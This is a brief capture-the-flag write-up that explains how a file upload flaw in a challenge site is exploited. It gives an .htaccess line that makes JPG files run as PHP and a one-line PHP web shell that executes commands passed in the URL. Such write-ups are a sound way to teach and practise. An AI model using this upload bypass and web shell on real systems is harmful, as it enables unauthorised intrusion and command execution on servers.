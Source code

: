 If you prefer the text version : [Write_up_latex](./WU_website_renderer.pdf)

# Reconnaissance

With this challenge we immediately guess that there's a file upload vulnerability

![i2](13.jpg)

After uploading an image, we see it in uploads/

![i2](14.jpg)

 # Exploitation

First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:
`<?php if(isset($_GET["cmd"])) system($_GET["cmd"]); ?>`

![i2](17.jpg)

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

![i2](18.jpg)
![i2](19.jpg)
![i2](20.jpg)

Flagged !
